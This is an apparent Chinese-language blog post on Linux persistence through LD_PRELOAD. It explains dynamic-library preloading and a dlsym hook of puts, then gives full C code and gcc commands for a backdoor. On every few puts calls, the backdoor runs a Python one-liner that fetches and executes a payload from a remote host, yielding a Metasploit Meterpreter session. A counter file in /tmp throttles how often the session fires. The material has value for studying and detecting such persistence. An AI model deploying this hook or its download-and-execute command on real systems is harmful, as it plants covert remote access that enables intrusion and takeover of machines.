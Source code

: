 ```yaml
---
date: "2020-01-01T00:00:00Z"
description: 通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。
title: Linux权限维持之LD_PRELOAD
url: /archivers/2020-01-01/1
---
```


## LD_PRELOAD 

Linux操作系统的动态链接库在加载过程中，动态链接器会先读取LD_PRELOAD环境变量和默认配置文件`/etc/ld.so.preload`，并将读取到的动态链接库文件进行预加载，即使程序不依赖这些动态链接库，LD\_PRELOAD环境变量和`/etc/ld.so.preload`配置文件中指定的动态链接库依然会被装载,因为它们的优先级比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，所以能够提前于用户调用的动态库载入。

通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。

## dlsym

**dlsym是一个计算机函数，功能是根据动态链接库操作句柄与符号，返回符号对应的地址，不但可以获取函数地址，也可以获取变量地址。**

dlsym定义在Linux操作系统中的dlfcn.h中，函数原型如下：


> void * dlsym(void * handle,const char * symbol)

* handle：由dlopen打开动态链接库后返回的指针；
* symbol：要求获取的函数或全局变量的名称。

返回值：void * 指向函数的地址，供调用使用。

劫持示例代码：

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
// do some thing …
// 这里是puts调用之前
  result = new_puts(message);
  // 这里是puts调用之后
  return result;
}
```

编译命令：

`gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE`

* -fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
* -shared 生成共享库格式
* -ldl 显示方式加载动态库，可能会调用dlopen、dlsym、dlclose、dlerror
* -D_GNU_SOURCE 以GNU规范标准编译

编写好劫持puts函数的代码后，需要先生成一个Metasploit木马，使得在系统调用puts函数之前，都执行一次木马。

![2020-01-03-13-09-24](https://images.payloads.online/7b96fd80-4f5f-11ec-83b8-00d861bf4abb.png)

`exploit/multi/script/web_delivery` 模块能够直接生成一条Python命令，这能够非常方便的获得Meterpreter。
接下来，将劫持puts函数的代码做一些小改动，在执行puts之前，调用系统函数system来运行python命令，这样每次调用puts都可以获得Meterpreter会话。

![2020-01-03-13-09-40](https://images.payloads.online/7be0a598-4f5f-11ec-925d-00d861bf4abb.png)

正常执行的过程：

![2020-01-03-13-09-51](https://images.payloads.online/7c18aa06-4f5f-11ec-a1ce-00d861bf4abb.png)

执行whoami后，由于底层会调用puts函数，因此也会执行python命令，Metasploit不出意外的获得了Meterpreter：

![2020-01-03-13-10-01](https://images.payloads.online/7c58f930-4f5f-11ec-9d8e-00d861bf4abb.png)

接着，为了防止在短时间内获得多个重复的会话，因此需要优化一下代码，例如以某个文件行数和调用puts函数的次数进行取余，就能够达到执行多少次puts函数获得一次Meterpreter。
优化代码如下：

```c

#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <sys/stat.h>
#define BUFFER_SIZE 100
#define COMMAND_NUM 5
int check_file_line(char * filename){
	int file_line = 0;
	char buffer[BUFFER_SIZE];
	FILE *fp = NULL;
	fp = fopen(filename,"r");
	if(fp==NULL){
		return file_line;
	}

	while(fgets(buffer,BUFFER_SIZE,fp)!= NULL){
		file_line ++;
	}
	fclose(fp);
	return file_line;
}

void add_file_line(char * filename){
	FILE * fp = NULL;
	fp = fopen(filename,"a+");
	if(fp == NULL){
		return;
	}
	
	fputs("1\n",fp);
	fclose(fp);
}

void call_system(){

  system("python -c \"import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.170.138:8080/o1ZJy3Wue');exec(r.read());\"");

}

int puts(const char *message) {
  char * filename = "/tmp/err.log";
  int (*new_puts)(const char *message);
  int result;
  int file_lines = 0;
  new_puts = dlsym(RTLD_NEXT, "puts");
  add_file_line(filename);
  file_lines = check_file_line(filename);
  printf("[+]file_line : %d, NUM = %d \n",file_lines, COMMAND_NUM);
  if(file_lines % COMMAND_NUM == 0){
  	call_system();
  }
  result = new_puts(message);
  return result;
}
```

![2020-01-03-13-10-13](https://images.payloads.online/7c9b8e1c-4f5f-11ec-be9d-00d861bf4abb.png)

在执行至第零次、五次时，成功返回了会话：


![2020-01-03-13-10-21](https://images.payloads.online/7cdacac8-4f5f-11ec-bdf0-00d861bf4abb.png)

COMMAND_NUM 可自定义